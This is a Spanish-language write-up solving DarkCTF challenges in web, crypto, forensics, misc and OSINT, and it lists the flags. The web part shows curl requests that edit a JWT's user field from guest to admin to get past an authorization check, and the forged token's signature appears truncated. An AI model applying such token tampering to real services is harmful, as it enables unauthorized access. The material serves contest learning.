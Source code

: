 # DarkCTF
## Web
### MrRobot 
Accedemos a robots.txt y vemos lo siguiente
```
Disallow : /l33t_hax0r.html
```
Veamos esa url y podemos ver la flag

**darkCTF{maybe_i_should_give_you_a_name}**

### Web 1
La pagina nos lo dice muy clarito
```
To login use /login and btw I love post req only :p
ps: set header for specifying json
```
Hagamoslo
```
curl -X POST --header "Content-Type: application/json" -d '{"user":"admin","pass":"karma"}' http://web1.darkarmy.xyz/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.bJD0yEzriewpce-NWd1iummQBkQjOl_6qt8bPr9m8gs"}
```
Probemos el token en /flag
```
 curl -X POST --header "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.bJD0yEzriewpce-NWd1iummQBkQjOl_6qt8bPr9m8gs"}' http://web1.darkarmy.xyz/flag
```
Nos dice que no somos admin, probemos a modificar el JWT para que en vez de tener user:guest , tengamos user:admin y repitamos la request
```
 curl -X POST --header "Content-Type: application/json" -d '{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.bJD0yEzr_6qt8bPr9m8gs"}' http://web1.darkarmy.xyz/flag
 ```
Esto nos da el flag **darkCTF{345y_p345y_JWTs}**

## Crypto
### Really Secure Algo
```
n = 977777777777777777777777777777777777777777777777777777777777777777777777
777777777777777777777777777777777777777777777777777777777777777777777
e = 65537
c = 777100860344719251862233099079929815950590358671816920785821983126
256200182002548130383416252558510764139287733939898022176140368825482344800
```
Es un RSA sencillito, probemos con RSACTFTool
```
python RsaCtfTool.py -n 977777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777777 -e 65537 --uncipher 777100860344719251862233099079929815950590358671816920785821983126256200182002548130383416252558510764139287733939898022176140368825482344800
```
Con esto obtenemos la flag

**darkCTF{CTF_without_rsa?_pttf}**


## Forensic
### 1by2
```
1 / 2
walking over the bins...
meta meta meta...
```
Tiramos de binwalk y extraemos un zip, de este zip una imagen, y en los metadatos de la imagen tenemos lo siguiente
```
darkCTF{Half_
```
La otra mitad de la flag esta escrita en la primera imagen

```
4nd_h4Lf}
```
**darkCTF{Half_4nd_h4Lf}**

### RGBA
Sabemos que se ha aplicado esteganografía en el canal Alfa, siendo un PNG zsteg es nuestro primer recurso
```
zsteg -a chall.png | grep darkCTF
```
Y nos da la flag
**darkCTF{th3_fl4g_1s_tran5par3nt}** 

### SS
QQSTV Decoding  pero con la app del movil, ya que con el qsstv por algun motivo no decodifica bien y obtenemos la flag

**darkCTF{s10w_Sc4n_t3l3v!s!on}**

## Misc
## Pull, Push , Commit
*Flag on karma9874, can you find it? xD*

Buscamos ese user en github y encontramos un repo asociado llamado flaaaaaaaaaaaaaaaag, en el hay un archivo llamado flag.c con el siguiente codigo

``` C
#include <stdio.h>
#define HN {
#define IB }
#define Bl8 int
#define i1 (
#define i0 )
#define g6 [
#define g7 ]
#define T4 =
#define T9 +
#define GA4 while
#define GA9 <
#define JG6 char
#define bye return
#define l6 ,
#define DU printf
#define BP ;
Bl8 main i1 i0 HN
    Bl8 a g6 31 g7 T4 HN 100 l6 97 l6 114 l6 107 l6 67 l6 84 l6 70 l6 123 l6 110 l6 48 l6 112 l6 51 l6 95 l6 55 l6 104 l6 49 l6 53 l6 95 l6 110 l6 48 l6 55 l6 95 l6 55 l6 104 l6 51 l6 95 l6 102 l6 49 l6 52 l6 57 l6 125 IB BP Bl8 i T4 0 BP Bl8 j T4 1 BP GA4 i1 i GA9 31 i0 HN DU i1 "%c" l6 i1 JG6 i0 a g6 i g7 i0 BP i++ BP IB bye 0 BP IB
```
Vamos a convertirlo en algo legible
```C
#include <stdio.h>

int main ( ) {
    int a [ 31 ] = { 100 , 97 , 114 , 107 , 67 , 84 , 70 , 123 , 110 , 48 , 112 , 51 , 95 , 55 , 104 , 49 , 53 , 95 , 110 , 48 , 55 , 95 , 55 , 104 , 51 , 95 , 102 , 49 , 52 , 57 , 125 } ; int i = 0 ; int j = 1 ; while ( i < 31 ) { printf ( "%c" , ( char ) a [ i ] ) ; i++ ; } return 0 ; }
```
Obtenemos el siguiente output darkCTF{n0p3_7h15_n07_7h3_f149}

Rabbit hole por lo que se ve

Vamos a los issues y vemos uno relaccionado con este archivo  que modifica un poco el codigo
```
https://github.com/karma9874/flaaaaaaaaaggg/pull/1/commits/4d1d4dcbbe65eb8b79646ee52f981de169539359?file-filters%5B%5D=
```
Ejecutamos el codigo modificado y nos da la flag

**darkCTF{PR_134k_1nf05_t00}**

### Flag inception

Nos dan un zip con un monton de zips
```python
for i in range(0,1000):
  os.system("find /home/pj/Current/Dark -name "+ str(i) + ".zip -exec unzip {} \;")
```
Al extraer tenemos un monton de directorios pero en el ultimo no hay flag hmmmm, veamos si hay alguna pista
```
ls -laR | sort | uniq -u | grep flag
>-rw-r--r--   1 pj pj    20 ago 14 19:52 flag.txt
>-rw-r--r--   1 pj pj    38 ago 14 19:52 .flag
```
Ese .flag es sospechoso
```
find . -name .flag 
>./69/.flag
```
En el esta la flag
**darkCTF{f1n411y_y0u_h4v3_d4_r341_f14g}**

## OSINT


### Perception
*Did you see all our promotions in detail if not. go see again and don't forget to follow us on social media.*

Buscamos las promociones, y viendo el video de Youtube vi un QR sobre el segundo 16, si lo escaneamos obtenemos la flag

**darkCTF{6o1n6_7hr0u6h_7h3_Fr4m3s}**

### Catch me if you can
Buscamos por imagen y encontramos esa foto en otra URL
```
http://www.gc-gapa.de/partner-hotels-und-clubs/
```
Si buscamos la foto veremos el nombre del edificio

**darkCTF{das_posch_hotel}**

### Mr n00bs channel
Mirando los exif de la foto vemos un comentario
```
User Comment                    : mrn00b1337
```
Buscamos el user y encontramos una cuenta de twitter, en esa cuenta encontramos un canal de youtube
```
https://www.youtube.com/channel/UCfiPiuhOt5ctM0LQWAJeNYg
```
Solo tiene un video de la escena de castle super Haxxor pero con maullidos, si miramos las tags del video vemos la flag, para ver las tags miramos en el fuente

**flag : darkCTF{t4gs_4re_1mportant}**


